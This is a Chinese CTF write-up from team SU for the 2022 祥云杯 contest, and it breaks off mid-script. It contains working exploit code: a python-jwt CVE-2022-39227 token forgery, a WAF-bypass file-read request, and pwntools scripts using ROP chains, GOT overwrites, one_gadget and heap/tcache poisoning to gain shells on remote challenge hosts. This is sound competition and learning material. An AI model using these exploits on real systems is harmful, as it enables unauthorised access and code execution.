以下是我们 SU 本次2022 祥云杯 的 writeup ，感谢队里师傅们的辛苦付出！suers_xctf@126.com 或直接联系书鱼(QQ:381382770)
以下是我们 SU 本次2022 祥云杯 的 writeup ，感谢队里师傅们的辛苦付出！suers_xctf@126.com 或直接联系书鱼(QQ:381382770)
Web FunWEB 注册一个账号，然后登录，发现是jwt，参考cve-2022-39227，拿官方exp构造越权https://github.com/davedoesdev/python-jwt/blob/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9/test/vulnerability_vows.py
1 2 3 4 5 6 7 8 9 10 11 12 13 from datetime import timedeltafrom json import loads, dumpsimport python_jwt as jwtfrom jwcrypto.common import base64url_decode, base64url_encodetopic = "ddd" [header, payload, signature] = topic.split('.' ) parsed_payload = loads(base64url_decode(payload)) parsed_payload['is_admin' ] = 1 parsed_payload['username' ] = 'admin' parsed_payload['exp' ] = 2000000000 fake_payload = base64url_encode((dumps(parsed_payload, separators=(',' , ':' )))) print ('{" ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}' )

生成后就可以开始使用graphql注入，一步步注入获取密码为13Rj2x7VgjCLHIOZSGX0

登录后查看flag
ezjava

cc4可以直接打，但是不出网，所以得打一个tomcat通用回显

Rustwaf 先读src，然后使用/readfile 传入/flag可以进一步看到源码

参考
https://blog.maple3142.net/2022/08/07/corctf-2022-writeups/#rustshop 1 2 3 4 5 6 7 8 9 10 11 12 13 POST /readfile HTTP/1.1 Host: eci-2zef45s04koksnpurlze.cloudeci1.ichunqiu.com:3000 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15 ; rv:106.0 ) Gecko/20100101 Firefox/106.0 Accept: */* Accept-Language: zh-CN,zh;q=0.8 ,zh-TW;q=0.7 ,zh-HK;q=0.5 ,en-US;q=0.3 ,en;q=0.2 Accept-Encoding: gzip, deflate Content-Type : application/x-www-form-urlencoded Cache: no-cache Content-Length: 36 Origin: moz-extension://74b5b769-a8c6-3b45-af82-1453eac308dd Connection: close ["file:" ,"b" ,"a" ,"/%66%6c%61%67" ,"" ]
pwn ojs 查找关键词可知，这题魔改自项目：https://github.com/ndreynolds/flathead charTostr.charTo(offset, val)代表将字符串str偏移offset（可正可负）处改为val。
可越界写的条件是字符串str的长度为3，且当val = 17的时候，会返回存放str自身的堆块地址（结合动态调试）。

由于本题没开PIE保护，且got表可写：

所以其实任意写的思路很显然：先泄露出str自身堆块地址，然后就能用其与某got表地址的差值通过charTo任意写got表了。
泄露libc的思路也不难想到，可以将初始长度为3的str后面的\x00不断覆盖掉，这样就能泄露后面内存中的libc地址了，这里其实也可以泄露出堆块地址。
不过，由于比赛的时候远程环境十分诡异，导致当时配了几个小时环境都没弄出来远程的环境（打通以后才知道原因应该是由于共享库被放在了题目的同一目录下QAQ），后来就干脆采用了无脑爆破的做法。str后面内存区域中libc的位置需要爆破一下，得到是60*8的偏移处，然后得到了libc地址以后，其相对于基地址的偏移也需要爆破一下（这里其实有个技巧，就比如我这里劫持的是printf的got表，那么可能出问题也就是倒数第二、三个字节，先只改倒数第二个字节，其余保持原先的值不变，如果最后能正常输出，则表示倒数第四位的偏移爆破正确了，倒数第三个字节的爆破也同理这么操作）。
此外，这里应该也可以通过改某个got表为puts@plt，然后输入某个got的地址来泄露libc，或者先劫持bss段上的stdin/stdout/stderr指针为某个got表地址，然后比如再改setvbuf的got表为puts@plt，最后劫持执行流到setvbuf来泄露。不过这里貌似不太好泄露完再返回了，但是通过这里泄露的值和上述60*8的位置泄露的libc比对一下就不需要上面的爆破操作了。
最后，选用如下one_gadget即可：

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 from pwn import *context(os = "linux" , arch = "amd64" , log_level = "debug" ) io = remote("39.106.13.71" , 38641 ) libc = ELF("./libc-2.27.so" ) elf = ELF("./ojs" ) io.sendlineafter("> " , 'a = "win";' ) io.sendlineafter("> " , 'x = a.charTo(0, 17);' ) io.sendlineafter("> " , 'console.log("xxx" + x.toString() + "xxx");' ) io.recvline() io.recvuntil("xxx" ) heap_addr = int (io.recvuntil("xxx" ).strip(b"xxx" )) success("heap_addr:\t" + hex (heap_addr)) io.sendlineafter("> " , 'for(var i = 3; i < 60*8; i++) a.charTo(i, 97);' ) io.sendlineafter("> " , 'console.log(a);' ) libc_addr = u64(io.recvuntil("\x7f" )[-6 :].ljust(8 , b'\x00' )) success("libc_addr:\t" + hex (libc_addr)) libc_base = libc_addr - 0xd22ce8 success("libc_base:\t" + hex (libc_base)) dis = elf.got['printf' ] - heap_addr og = p64(libc_base + 0xe54f7 ) for i in range (6 ) : io.sendlineafter("> " , f'a.charTo({dis+i} , {og[i]} );' ) io.sendlineafter("> " , 'b = [];' ) io.sendlineafter("> " , 'b.push("winmt");' ) io.interactive()

protocol protobuf协议，存在一个strcpy造成栈溢出，通过strcpy末尾补0的性质多次刷0组合，避开00截断的问题。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 import sys_b=sys.version_info[0 ]<3 and (lambda x:x) or (lambda x:x.encode('latin1' )) from google.protobuf import descriptor as _descriptorfrom google.protobuf import message as _messagefrom google.protobuf import reflection as _reflectionfrom google.protobuf import symbol_database as _symbol_database_sym_db = _symbol_database.Default() DESCRIPTOR = _descriptor.FileDescriptor( name='ctf.proto' , package='ctf' , syntax='proto2' , serialized_options=None , serialized_pb=_b('\n\tctf.proto\x12\x03\x63tf\")\n\x03pwn\x12\x10\n\x08username\x18\x01 \x01(\x0c\x12\x10\n\x08password\x18\x02 \x01(\x0c' ) ) _PWN = _descriptor.Descriptor( name='pwn' , full_name='ctf.pwn' , filename=None , file=DESCRIPTOR, containing_type=None , fields=[ _descriptor.FieldDescriptor( name='username' , full_name='ctf.pwn.username' , index=0 , number=1 , type =12 , cpp_type=9 , label=1 , has_default_value=False , default_value=_b("" ), message_type=None , enum_type=None , containing_type=None , is_extension=False , extension_scope=None , serialized_options=None , file=DESCRIPTOR), _descriptor.FieldDescriptor( name='password' , full_name='ctf.pwn.password' , index=1 , number=2 , type =12 , cpp_type=9 , label=1 , has_default_value=False , default_value=_b("" ), message_type=None , enum_type=None , containing_type=None , is_extension=False , extension_scope=None , serialized_options=None , file=DESCRIPTOR), ], extensions=[ ], nested_types=[], enum_types=[ ], serialized_options=None , is_extendable=False , syntax='proto2' , extension_ranges=[], oneofs=[ ], serialized_start=18 , serialized_end=59 , ) DESCRIPTOR.message_types_by_name['pwn' ] = _PWN _sym_db.RegisterFileDescriptor(DESCRIPTOR) pwn = _reflection.GeneratedProtocolMessageType('pwn' , (_message.Message,), dict ( DESCRIPTOR = _PWN, __module__ = 'ctf_pb2' )) _sym_db.RegisterMessage(pwn) import ctf_pb2from pwn import *context(os = "linux" , arch = "amd64" , log_level = "debug" ) io = remote("101.201.71.136" , 38494 ) zero_list = [] def gen (username, password ): result = ctf_pb2.pwn() result.username = username result.password = password return result.SerializeToString() pop_rax_ret = 0x5bdb8a pop_rdi_ret = 0x404982 pop_rsi_ret = 0x588bbe pop_rdx_ret = 0x40454f syscall_ret = 0x68f0a4 bin_sh_addr = 0x81A380 payload = b'a' *0x148 + p64(pop_rdi_ret) + p64(0 ) + p64(pop_rsi_ret) + p64(bin_sh_addr) + p64(pop_rdx_ret) + p64(0x10 ) + p64(pop_rax_ret) + p64(0 ) + p64(syscall_ret) + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(pop_rsi_ret) + p64(0 ) + p64(pop_rdx_ret) + p64(0 ) + p64(pop_rax_ret) + p64(59 ) + p64(syscall_ret) for i in range (len (payload)) : if payload[i] == 0 : zero_list.append(i) payload = payload[0 :i] + b'a' + payload[i+1 :] zero_list = zero_list[::-1 ] login = gen(payload, b'winmt' ) io.sendafter("Login: " , login) for i in zero_list : payload = payload[0 :i] login = gen(payload, b'winmt' ) io.sendafter("Login: " , login) login = gen(b'admin' , b'admin' ) io.sendafter("Login: " , login) io.send(b'/bin/sh\x00' ) io.interactive()
queue 队列结构体
1 2 3 4 5 6 7 8 9 10 11 12 13 struct elem { _QWORD buf_array_ptr; _QWORD sub_buf_max; _QWORD pBuffStart; _QWORD a3; _QWORD pBuffLast; char **sub_bufs; _QWORD pBuffEnd; _QWORD a7; _QWORD a8; _QWORD sub_buf_last; };
666功能可以直接修改结构体
exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 from pwn import *from colorama import Forefrom colorama import Styleimport inspectfrom argparse import ArgumentParserparser = ArgumentParser() parser.add_argument("--elf" , default="./queue" ) parser.add_argument("--libc" , default="./libc-2.27.so" ) parser.add_argument("--arch" , default="amd64" ) parser.add_argument("--remote" ) args = parser.parse_args() context(arch=args.arch,log_level='debug' ) def retrieve_name (var ): callers_local_vars = inspect.currentframe().f_back.f_back.f_locals.items() return [var_name for var_name, var_val in callers_local_vars if var_val is var] def logvar (var ): log.debug(f'{Fore.RED} {retrieve_name(var)[0 ]} : {var:#x} {Style.RESET_ALL} ' ) return script = '' def rbt_bpt (offset ): global script script += f'b * $rebase({offset:#x} )\n' def bpt (addr ): global script script += f'b * {addr:#x} \n' def dbg (): gdb.attach(sh,script) pause() prompt = b'Queue Management: ' def cmd (choice ): sh.sendlineafter(prompt,str (choice).encode()) def add (size ): cmd(1 ) sh.sendlineafter(b'Size: ' ,str (size).encode()) return def edit (buf_id,idx,val ): cmd(2 ) sh.sendlineafter(b'Index: ' ,str (buf_id).encode()) sh.sendlineafter(b'Value idx: ' ,str (idx).encode()) sh.sendlineafter(b'Value: ' ,str (val).encode()) return def show (buf_id,num ): cmd(3 ) sh.sendlineafter(b'Index: ' ,str (buf_id).encode()) sh.sendlineafter(b'Num: ' ,str (num).encode()) return def dele (): cmd(4 ) return def backdoor (buf_id,ctt ): cmd(666 ) sh.sendlineafter(b'Index: ' ,str (buf_id).encode()) sh.sendafter(b'Content: ' ,ctt) return def edit_qword (buf_id,off,val ): for i in range (8 ): byte = val & 0xff edit(buf_id,off+i,byte) val >>= 8 rbt_bpt(0x1688 ) rbt_bpt(0x16b5 ) def leak_num (): val = 0 sh.recvuntil(b'Content: ' ) for i in range (8 ): num = int (sh.recvline().strip(),16 ) val |= num << (8 *i) return val def pwn (): add(0x100 ) backdoor(0 ,p64(0 )*2 + b'\x88\x5e' ) show(0 ,0x8 ) heap_addr = leak_num() if heap_addr == 0 : raise EOFError for i in range (5 ): add(0x100 ) for i in range (4 ): dele() backdoor(0 ,p64(0 )*2 + p64(heap_addr + 0x1a50 )*2 ) show(0 ,0x8 ) libc_base = leak_num() - 0x3ebca0 logvar(heap_addr) logvar(libc_base) edit_qword(1 ,0 ,u64(b'/bin/sh\x00' )) libc = ELF(args.libc,checksec=False ) libc.address = libc_base payload = flat([ 0 , 0 , libc.sym['__free_hook' ], libc.sym['__free_hook' ], libc.sym['__free_hook' ]+0x200 , heap_addr, libc.sym['__free_hook' ]+0x200 , libc.sym['__free_hook' ]+0x200 , libc.sym['__free_hook' ]+0x200 , heap_addr+8 ]) backdoor(0 ,payload) edit_qword(0 ,0 ,libc.sym['system' ]) dele() while True : try : sh = remote('39.106.13.71' ,'31586' ) pwn() sh.interactive() except EOFError: sh.close()
unexploitable 利用思路：
因为程序仅仅有一个read函数，没有canary，而且溢出的字节非常大，所以本题可以随便溢，但问题是没有后门函数，并且没有输出函数。在开了PIE的情况下，很多花活是没法用的。
通过调试发现，在main函数返回到libc_start_main函数的时候，该地址是一个libc地址，而让执行流跳到一个地址就能get shell的地址只有one_gadget。通过用set命令更改内存的值为one_gadget，发现第一个one_gadget就能用(如下)
但如果我们单纯的填垃圾数据，然后溢出篡改的话，情况如下

即使我们溢出篡改了libc_start_main,也会返回到它上面的地址，所以我们需要让执行流滑到libc_start_main上，开了PIE保护，我们无法直接获取ret指令的地址，但是vsyscall的地址始终是固定的，它可以当做ret指令来用。
所以我们把上图的0xdeadbeef改成vsyscall的地址即可，执行到vsyscall的时候就可以往下滑到爆破成功的one_gadget，从而获取shell。
EXP
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 from pwn import *context.arch='amd64' context.log_level == "debug" def exp (): payload = p64(0xdeadbeef ) * 3 + p64(0xffffffffff600000 ) * 2 + b'\xa5\x22\x06' p.send(payload) p.sendline('cat flag' ) a=p.recv(timeout=0.5 ) if not a: return p.interactive() while 1 : try : p = remote("39.106.13.71" , 14305 ) exp() except EOFError: p.close() p.close()
sandboxheap 沙箱分析

此处为0才不会进入if，否则就走ptrace禁用了。
初始化bss段这里全为1,当我们传进来的参数rdi为3的时候，则可以进入两个if(如下)，而switch case想进这里的话，需要让rax为0x2710,因此我们只要保证rop链执行的时候，先让rdi为3，rax为0x2710，然后调用syscall，自定义一个白名单，就可以去打orw了。
漏洞所在：

在edit函数里，input函数(函数已重命名)的参数有个+1，所以判断这里是存在个溢出的。
然后input函数里面是这样的
说实话这个我没太看懂，不过根据调试和SU其他师傅的提示，感觉这里的大概意思就是说，我们输入的一个字节只取末尾一个比特，而八个字节就会取出来八个比特，这取出来的八个比特才表示出了一个字节。在以前我们想发送p64()打包后的数据，仅仅只需要发送八字节，但是在这题里，我们需要用64个字节来表示一个八字节的地址。
举个例子，我们原本要往内存里写一个地址为0xdeadbeef，以前的话，我们使用p64(0xdeadbeef)即可，但是这道题的话，我们使用下面的部分才能达到同样的效果
(bin(0xdeadbeef)[2:].rjust(64,’\x00’).encode()[::-1])
重新回到漏洞上面，这道题通过调试可以发现是溢出了一个比特，其实跟off by null的思路一样，都是去溢出然后篡改堆块的prev_inuse位，然后去打一个堆块合并。但是这道题还有一个难点就是有沙箱保护，通过分析沙箱规则，我们需要打一条rop链。因此对应的策略就是用setcontext来改变寄存器的值，从而将执行流劫持到rop链上
利用思路：
1 2 3 4 5 6 7 8 9 10 11 for i in range(11): add(i,0x88) for i in range(7): delete(i) delete(7)#merge chunk payload=b'1'*(0x80*8)+b'00000100'+b'10000000'+b'00000000'*6+b'00000000' edit(8,payload) debug(p,'pie',0xED6,0xEE2,0xEEE,0xEFA,0xC9F,0xBA7) delete(9)#堆块合并
接下来去泄露堆地址和libc地址，大致思路就是做堆块重叠，让一块被释放掉的内存落在一个正在使用的堆块中，从而执行show函数完成泄露libc和堆地址。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 for i in range(7): add(i,0x80) add(12,0xc0) show(12) leak_libc=recv_libc() libc_base=leak_libc-0x3ebe40 log_addr('libc_base') free_hook=libc_base+libc.symbols['__free_hook'] context_addr=libc_base+libc.symbols['setcontext']+53 log_addr('free_hook') delete(8) payload=b'1'*(0x98*8) edit(12,payload) show(12) p.recvuntil(0x98*"\xff") heap_addr=u64(p.recv(6).ljust(8,b'\x00')) log_addr('heap_addr')
最后去打一个tcache poisoning,将free_hook申请出来，然后写入setcontext+53的地址，提前在堆块中布置好各个寄存器的值，最后去释放掉该堆块。即可控制各个寄存器，从而去执行系统调用read。将rop链读到执行流上，从而执行rop链(orw)读出flag。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 from pwn import * context(os = "linux", arch = "amd64", log_level = "debug") #io = process(["./sandbox", "./sandboxheap"]) io = remote("101.201.71.136", 12795) elf = ELF("./sandboxheap") libc = ELF("./libc-2.27.so") def add(idx, size): io.sendlineafter("Your choice: ", "1") io.sendlineafter("Index: ", str(idx)) io.sendlineafter("Size: ", str(size)) def edit(idx, content): io.sendlineafter("Your choice: ", "2") io.sendlineafter("Index: ", str(idx)) io.sendafter("Content: ", content) def show(idx): io.sendlineafter("Your choice: ", "3") io.sendlineafter("Index: ", str(idx)) def delete(idx): io.sendlineafter("Your choice: ", "4") io.sendlineafter("Index: ", str(idx)) def convert(st): tar="" for i in st: b=(bin(i)[2:].rjust(8,'\x00')[::-1]) tar+=b return tar for i in range(11): add(i, 0x88) for i in range(7): delete(i) delete(7) edit(8, b'1' * 0x80 * 8 + b'00000100' + \ b'10000000' + b'00000000' * 6 + b'00000000') delete(9) for i in range(7): add(i, 0x88) add(7, 0x88) show(8) libc_base = u64(io.recvuntil("\x7f")[-6:].ljust(8, b'\x00')) - 0x3ebca0 success("libc_base:\t" + hex(libc_base)) add(9, 0x110) add(13, 0x110) add(14, 0x110) delete(13) delete(9) show(8) io.recvuntil("Content: 